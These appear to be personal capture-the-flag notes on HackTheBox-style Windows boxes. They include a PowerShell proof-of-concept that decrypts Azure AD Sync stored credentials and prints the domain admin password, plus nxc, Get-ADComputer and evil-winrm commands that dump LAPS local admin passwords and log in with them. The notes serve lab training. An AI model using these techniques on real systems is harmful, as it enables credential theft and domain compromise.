 ```

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
- save as .ps1 (currently saved in ~/HTB/monteverde/poc.ps1) and upload to shell and run `.\poc.ps1` to get administrator password


LAPS
see *ReadLAPSPassword* in bloodhound but no foothold/shell, use nxc:
```
nxc ldap 192.168.199.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.199.122 -M laps
```

`net user svc_deploy` shows "LAPS_Readers" or something similar to imply LAPS is happening
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- ms-mcs-admpwd property shows the local admin password for the box
- `evil-winrm -i 10.129.98.245 -S -u administrator -p 'l2H.h7Ao4m04tk7z+0v5LB.['`
	- root flag will actually be in a different static directory on the box instead of admin because the admin user wont have a static password to confirm flag

